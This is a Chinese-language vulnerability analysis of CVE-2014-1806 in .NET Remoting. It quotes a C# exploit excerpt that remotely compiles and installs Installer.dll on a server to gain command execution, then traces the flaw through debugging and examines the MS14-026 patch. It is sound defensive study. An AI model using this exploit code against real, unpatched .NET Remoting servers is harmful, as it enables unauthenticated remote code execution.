 # CVE-2014-1806 .NET Remoting Services 漏洞浅析

2014/11/24 12:02 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 简介

* * *

Microsoft .NET Remoting 是一种分布式处理方式，提供了一种允许对象通过应用程序域与另一对象进行交互的框架。前几天 James Forshaw 发布了 CVE-2014-1806 .NET Remoting Services 的漏洞利用程序，花了一些时间对其进行一下简单的调试分析。

首先安装包含漏洞的.NET Framework v4.0.30319，执行 poc 代码，可以看到执行成功了。

![enter image description here](img/img1_u88_png.jpg)

## 0x01 分析

* * *

对 poc 代码进行分析，可以看到下面的代码 CreateRemoteClass，其中 MakeCall 模板函数根据参数信息构建发送到服务器端的请求数据并得到服务器执行结果，其中 static object SendRequest(object o, bool remote) 函数完成对象的序列化、协议数据包的构建发送以及执行结果的解析。

例如 MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"))是用于调用远程服务器中 Path 对象的 GetTempPath 方法，并返回执行结果。Poc 中的代码用于在远端服务器中上传、编译 RemoteClass.cs、IRemoteClass.cs、InstallClass.cs 文件得到 Installer.dll，然后安装 Installer.dll，最终创建 IRemoteClass 的对象实体。在得到 IRemoteClass 对象之后，就能调用它的方法执行任意命令了。</string>

```
private static IRemoteClass CreateRemoteClass()
{
    if (_useser)
    {
        return new SerializerRemoteClass();
    }
    else
    {
        string path;
        if (_uri.Scheme != "ipc")
        {
            IRemoteClass ret = GetExistingRemoteClass();

            try
           {
               ret.ToString();
               return ret;
           }
           catch (RemotingException)
           {
           }

           path = MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"));
          path = Path.Combine(path, "Installer.dll");
          CodeDomProvider compiler = MakeCall<CodeDomProvider>(_uri.AbsolutePath, GetCreateInstance<CSharpCodeProvider>());

          string uri = RemotingServices.GetObjectUri(compiler);
          CompilerParameters cp = new CompilerParameters();
          cp.ReferencedAssemblies.Add("System.dll");
          cp.ReferencedAssemblies.Add("System.Configuration.Install.dll");
          cp.OutputAssembly = path;

          cp.GenerateInMemory = false;
          cp.GenerateExecutable = false;

          string code = GetResource("RemoteClass.cs");
          string intf = GetResource("IRemoteClass.cs");
          string inst = GetResource("InstallClass.cs");

CompilerResults res = MakeCall<CompilerResults>(uri,new FakeMethod(typeof(CodeDomProvider).GetMethod("CompileAssemblyFromSource"), _ver), cp, new string[] { code, intf, inst });
          }
          else
          {
              path = typeof(IRemoteClass).Assembly.Location;
          }
          try
          {
             AssemblyInstaller installer = MakeCall<AssemblyInstaller>(_uri.AbsolutePath, GetCreateInstance<AssemblyInstaller>());
            installer.Path = path;
            installer.CommandLine = new string[] { "/name=" + _remotename };
            installer.UseNewContext = true;
            installer.Install(new Hashtable());
       }
       catch
       {
           // In the IPC case this might fail
           // Just continue on with the creation of the remote class and see if we're lucky            
       }
        return GetExistingRemoteClass();
    }
}

```

可以通过 WireShark 截包验证整个数据交互过程，其中包含文件的上传，服务端的%TEMP%目录下也相应的生成了 Installer.dll。

![enter image description here](img/img2_u24_png.jpg)

为了了解服务端的数据处理流程，通过 windbg 对 CreateProcessW 设置断点，通过 sos.dll 扩展来观察程序的托管代码调用堆栈。

![enter image description here](img/img3_u87_png.jpg)

通过托管代码的调用栈，结合.NET Reflector 对 System.Runtime.Remoting.dll 进行分析。

可以看到 System.Runtime.Remoting.Channels.Tcp.TcpServerTransportSink.ServiceRequest 方法通过 ITransportHeaders requestHeaders = handler.ReadHeaders()和 Stream requestStream = handler.GetRequestStream()获取了协议头和请求的对象流信息。

然后调用 System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage 方法 ，该方法中通过 requestMsg = CoreChannel.DeserializeBinaryRequestMessage(uRI, requestStream, this._strictBinding, this.TypeFilterLevel)对请求的对象流进行反序列化，成功之后则调用 System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage。

![enter image description here](img/img4_u130_png.jpg)

![enter image description here](img/img5_u50_jpg.jpg)

System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage 中简单判断之后，直接调用了 ChannelServices.DispatchMessage(sinkStack, requestMsg, out responseMsg)分发消息。

DispatchMessage 中则只是通过 IsMethodReallyPublic(methodBase)和 RemotingServices.IsMethodAllowedRemotely(methodBase))判断了远端调用的方法是否允许，如果满足条件，则进一步处理，最终调用该方法。

![enter image description here](img/img6_u80_png.jpg)

![enter image description here](img/img7_u68_png.jpg)

整个过程中并没有对远端的身份进行有效性验证，而 Remoting 对远端提供的方法导致了可以通过 CreateInstance 在服务端得到获取 CodeDomProvider 对象、通过 CodeDomProvider 的 CompileAssemblyFromSource 方法编译源码、安装 Installer.dll，最后创建 IRemoteClass 类对象来执行命令的漏洞。

## 0x02 关于补丁

* * *

Microsoft 安全公告 MS14-026 中提到针对该漏洞的安全更新是通过帮助确保 .NET Framework 为应用程序内存正确强制实施安全控件来解决漏洞，即采用了变通方法，仅允许经过身份验证的客户端与容易受到攻击的服务器进行交互。

![enter image description here](img/img8_u96_png.jpg)

![enter image description here](img/img9_u58_png.jpg)

通过给 win7 sp1 打 NDP40-KB2931365-x86.exe 补丁，对比打补丁前后的 System.Runtime.Remoting.dll 的 System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage 方法，可以看到多了如下图的一段代码。

![enter image description here](img/img10_u42_png.jpg)

执行之前的 poc 代码，将发现服务端抛出异常，由于 allowTransparentProxyMessageValue 的值为 false，导致消息不会进一步被处理，与安全公告中描述的一致。如果 allowTransparentProxyMessageValue 的值为 true，程序的处理流程与未打补丁时相同。

![enter image description here](img/img11_u47_png.jpg)

版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)
*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)
*   [Rsync 安全配置](http://drops.wooyun.org/papers/161)